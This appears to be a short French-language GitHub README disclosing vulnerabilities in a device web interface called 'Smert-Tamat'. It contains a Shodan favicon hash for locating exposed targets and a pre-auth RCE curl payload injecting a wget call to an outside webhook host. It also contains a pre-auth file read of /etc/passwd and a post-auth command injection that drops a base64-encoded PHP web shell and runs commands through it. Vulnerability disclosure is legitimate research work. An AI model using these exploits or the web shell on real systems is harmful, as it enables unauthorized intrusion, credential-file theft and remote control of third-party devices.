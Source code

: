 ![image](https://github.com/Ug0Security/Smert-Tamat/assets/28728543/fc846835-252b-406e-94d5-2e9fe1815e4d)



Encore une pre auth RCE random

http.favicon.hash:1429120848

curl -X POST TARGET -d "ok=1&tamat_smsNums=&tamat_telNums=&battery_min_alarm=&life_msg_timer=&display_timer=&phone_number='$(wget%20http://webhook.site/xxx/)"

il y a plein d'autres trucs dont un file read pre auth

/swinst/download_file.php?file=/etc/passwd

et des RCE post auth  qui mon permis de facilité la recherche de la RCE pré auth heh...

/swinst/reboot.php?sw_active=$(echo "PD89YCRfR0VUWzBdYDs=" | base64 -d > shell.php)  (attention ça reboot)
puis /swinst/shell.php?0=id
